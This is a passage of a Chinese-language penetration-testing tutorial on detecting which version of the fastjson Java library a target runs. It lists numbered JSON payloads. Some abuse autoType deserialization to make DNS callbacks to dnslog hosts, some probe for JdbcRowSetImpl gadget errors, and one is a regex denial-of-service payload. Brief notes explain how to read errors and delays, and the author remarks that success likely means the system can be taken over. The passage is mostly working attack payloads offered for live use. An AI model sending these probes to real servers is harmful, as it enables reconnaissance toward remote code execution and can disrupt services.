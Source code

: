 ```json
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://tbqnrzguzp.dgrh3.cn"}}""}
```
如果不报错、`dnslog`**无响应**，说明版本处于`1.2.9`至`1.2.36`。
### 2.2.6 判断1.2.37<=version<=1.2.83
还是上面的`payload19`，如果`dnslog`有响应，说明处于`1.2.37`和`1.2.83`之间。
### 2.2.7 判断1.2.9<=version<=1.2.83
`payload20`：
```json
Set[{"@type":"java.net.URL","val":"http://wobfyhueao.dgrh3.cn"}]
```
### 2.2.8 判断version≠(1.2.24 || 1.2.83)
`payload21`：
```json
{"page":{"pageNumber":1,"pageSize":1,"zero":{"@type":"java.lang.Exception","@type":"org.XxException"}}}
```
只有`1.2.25<=version<=1.2.80`的时候会报错，其他情况包括`1.1`和`2.0`的版本都是不会报错的。
### 2.2.9 判断1.2.69<=version<=1.2.83
`payload22`：
```json
{"page":{"pageNumber":1,"pageSize":1,"zero":{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"}}}
```
如果报错（`autoType is not support. java.io.ByteArrayOutputStream`），说明版本处于`1.2.69`和`1.2.83`之间；如果不报错，说明处于`1.2.24`到`1.2.68`之间。
### 2.2.10 判断1.2.48<=version<=1.2.83
`payload23`：
```json
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl"}}
```
大部分情况下，如果报错，说明版本处于`1.2.48`到`1.2.83`，但是有时候也可能因为环境本身而出现奇奇怪怪的问题，比如我这里`1.2.24`也报错，只是报错内容不同：
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697703633490-9f435328-7ac1-4515-8f91-4a94c97b7c73.png#averageHue=%23a2d8d9&clientId=u34d78b8a-7ddf-4&from=paste&height=372&id=u2e91eb2a&originHeight=372&originWidth=1605&originalType=binary&ratio=1&rotation=0&showTitle=false&size=65084&status=done&style=none&taskId=u2ceb68f6-1e9a-4c39-9fe0-2453bec032a&title=&width=1605)
`1.2.47`也报错，报错内容和前两者都不同：
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697703695192-601d75c5-1724-4df6-9235-1d27fd47cf41.png#averageHue=%239ad2d7&clientId=u34d78b8a-7ddf-4&from=paste&height=380&id=u7169d84c&originHeight=380&originWidth=1597&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69691&status=done&style=none&taskId=uc4b29973-f076-4a4f-9495-d0bbe9180d8&title=&width=1597)
由于我们不知道报错的详细信息，因此感觉不能作为一个精确判断的方法。
我后来又拿之前的`demo`进行测试，发现符合结论，师傅们利用的时候须要注意。
### 2.2.11 判断version=1.2.24
`payload24`：
```json
{"zero": {"@type": "com.sun.rowset.JdbcRowSetImpl"}}
```
按照`@kezibei`师傅给出的结论，这个`payload`只有`1.2.24`是不报错的，但是我本地靶场环境`1.2.24`也报错，只是和其他版本的不同：
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697704021739-d8fec65a-b8bc-4201-b64f-56cb8723e454.png#averageHue=%23ecf0f4&clientId=u34d78b8a-7ddf-4&from=paste&height=296&id=u6e337228&originHeight=296&originWidth=1200&originalType=binary&ratio=1&rotation=0&showTitle=false&size=46515&status=done&style=none&taskId=u233fb43a-207d-42df-a900-9d38c12463a&title=&width=1200)
我又拿`demo`测试了下，发现符合结论：
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697704047772-9cfb3fc3-20d8-4d4c-bf7d-7d3a9232c40a.png#averageHue=%2326282c&clientId=u34d78b8a-7ddf-4&from=paste&height=992&id=u4ee28521&originHeight=992&originWidth=1384&originalType=binary&ratio=1&rotation=0&showTitle=false&size=224646&status=done&style=none&taskId=u5ddf9776-2a2e-4dc2-851e-3ffc5a32705&title=&width=1384)
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697704069421-15951e43-7b5b-4daf-b9dd-3381c173cd0e.png#averageHue=%2326282b&clientId=u34d78b8a-7ddf-4&from=paste&height=992&id=ubd201ec0&originHeight=992&originWidth=1384&originalType=binary&ratio=1&rotation=0&showTitle=false&size=171331&status=done&style=none&taskId=u683a3cd5-c184-47b5-b303-7ed3460c624&title=&width=1384)
## 2.3 延迟判断法
### 2.3.1 浅蓝正则ddos探测法：1.2.36<=version<=1.2.63_noneautotype
`payload25`：
```json
{"regex":{"$ref":"$[blue rlike '^[a-zA-Z]+(([a-zA-Z ])?[a-zA-Z]*)*$']"},"blue":"aaa!"}
```
该`payload`慎用，可能会影响业务系统，实战中应当逐步加`a`，不要一上来就输入一堆`a`。有延迟，说明版本处于`1.2.36`和`1.2.63_noneautotype`之间。
尽管需要慎用，但是该`payload`的魅力还是很大的，一旦成功说明该系统很有可能可以拿下该系统权限。